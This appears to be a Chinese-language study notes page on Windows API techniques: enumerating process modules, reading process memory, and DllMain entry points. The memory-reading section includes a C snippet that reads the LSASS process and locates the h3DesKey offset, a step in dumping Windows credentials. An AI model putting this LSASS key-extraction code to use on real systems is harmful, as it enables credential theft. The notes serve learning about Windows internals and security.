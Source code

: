 ```
		printf("[!]Error code of EnumProcessModules():%d\n", GetLastError());
		return 0;
	}
```

**步骤**：

1. EnumProcessModules ，获取进程中所有模块的handle
2. 遍历每个模块，调用GetModuleFileNameExA获取文件路径名



## 读取进程内存

ReadProcessMemory

```
// Read memory from LSASS process
SIZE_T ReadFromLsass(HANDLE hLsass, void* addr, void* memOut, int memOutLen) {
	SIZE_T bytesRead = 0;

	memset(memOut, 0, memOutLen);
	ReadProcessMemory(hLsass, addr, memOut, memOutLen, &bytesRead);

	return bytesRead;
}

// Retrieve offset to h3DesKey address due to "lea reg, [h3DesKey]" instruction
ReadFromLsass(hLsass, lsasrvMem + keySigOffset + DES_OFFSET, &desOffset, 4);
printf("[*] h3DesKey offset found as %d\n", desOffset);
```



## 加载Dll

- ### DllMain entry point

> An optional entry point into a dynamic-link library (DLL). When the system starts or terminates a process or thread, it calls the entry-point function for each loaded DLL using the first thread of the process. The system also calls the entry-point function for a DLL when it is loaded or unloaded using the [**LoadLibrary**](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) and [**FreeLibrary**](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-freelibrary) functions.

DllMain是Dll的默认入口函数，用于指定Dll被加载、卸载时需要执行的操作。例如，当进程加载Dll时，会执行case DLL_PROCESS_ATTACH下的代码。

```
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved )  // reserved
{
    // Perform actions based on the reason for calling.
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
         // Initialize once for each new process.
         // Return FALSE to fail DLL load.
            break;

        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;

        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;
```
